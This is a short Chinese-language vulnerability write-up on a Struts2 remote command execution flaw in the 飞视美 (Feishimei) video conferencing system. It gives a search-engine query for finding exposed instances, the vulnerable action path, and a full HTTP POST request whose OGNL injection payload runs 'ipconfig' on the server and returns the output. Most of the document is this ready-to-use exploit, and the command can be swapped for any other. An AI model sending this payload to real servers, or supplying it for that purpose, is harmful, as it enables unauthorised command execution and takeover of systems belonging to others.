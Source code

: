 # 飞视美 视频会议系统 Struts2 远程命令执行漏洞

## 漏洞描述

飞视美 视频会议系统 Struts2组件存在远程命令执行漏洞，通过漏洞攻击者可执行任意命令获取服务器权限

## 漏洞影响

```
飞视美 视频会议系统
```

## 网络测绘

```
app="飞视美-视频会议系统"
```

## 漏洞复现

登录页面

![image-20220525152447274](images/202205251524392.png)

存在漏洞的路径为

```
/confinfoaction!showallConfinfos.action
```

发送请求包

```
POST /confinfoaction!showallConfinfos.action HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 669
Host: 
Connection: Keep-Alive

('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43mycmd\75\'ipconfig\'')(d))&(h)(('\43myret\75@java.lang.Runtime@getRuntime().exec(\43mycmd)')(d))&(i)(('\43mydat\75new\40java.io.DataInputStream(\43myret.getInputStream())')(d))&(j)(('\43myres\75new\40byte[51020]')(d))&(k)(('\43mydat.readFully(\43myres)')(d))&(l)(('\43mystr\75new\40java.lang.String(\43myres)')(d))&(m)(('\43myout\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(n)(('\43myout.getWriter().println(\43mystr)')(d))
```

![image-20220525152728933](images/202205251527012.png)